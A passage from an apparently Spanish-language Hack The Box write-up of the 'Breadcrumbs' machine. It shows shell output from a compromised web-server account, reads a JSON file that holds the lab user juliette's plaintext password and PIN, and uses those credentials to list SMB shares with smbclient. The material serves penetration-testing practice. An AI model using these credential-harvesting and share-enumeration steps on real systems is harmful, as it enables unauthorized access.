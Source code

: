 ```powershell
C:\Users\www-data\Desktop\xampp\htdocs\portal\pizzaDeliveryUserData>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 7C07-CD3A

 Directory of C:\Users\www-data\Desktop\xampp\htdocs\portal\pizzaDeliveryUserData

02/08/2021  06:37 AM    <DIR>          .
02/08/2021  06:37 AM    <DIR>          ..
11/28/2020  02:48 AM               170 alex.disabled
11/28/2020  02:48 AM               170 emma.disabled
11/28/2020  02:48 AM               170 jack.disabled
11/28/2020  02:48 AM               170 john.disabled
01/17/2021  04:11 PM               192 juliette.json
11/28/2020  02:48 AM               170 lucas.disabled
11/28/2020  02:48 AM               170 olivia.disabled
11/28/2020  02:48 AM               170 paul.disabled
11/28/2020  02:48 AM               170 sirine.disabled
11/28/2020  02:48 AM               170 william.disabled
              10 File(s)          1,722 bytes
               2 Dir(s)   6,542,053,376 bytes free

C:\Users\www-data\Desktop\xampp\htdocs\portal\pizzaDeliveryUserData>net user
net user

User accounts for \\BREADCRUMBS

-------------------------------------------------------------------------------
Administrator            DefaultAccount           development              
Guest                    juliette                 sshd                     
WDAGUtilityAccount       www-data                 
The command completed successfully.

C:\Users\www-data\Desktop\xampp\htdocs\portal\pizzaDeliveryUserData>type juliette.json
type juliette.json
{
	"pizza" : "margherita",
	"size" : "large",	
	"drink" : "water",
	"card" : "VISA",
	"PIN" : "9890",
	"alternate" : {
		"username" : "juliette",
		"password" : "jUli901./())!",
	}
}
```
Dentro encontramos las credenciales del usuario juliette. Intentamos revisar los archivos compartidos que tiene este usuario.

```shell
gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/Breadscrumbs/rlwrap-0.46.1$ smbclient -U juliette -L 10.10.10.228
Password for [WORKGROUP\juliette]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	Anouncements    Disk      
	C$              Disk      Default share
	Development     Disk      
	IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```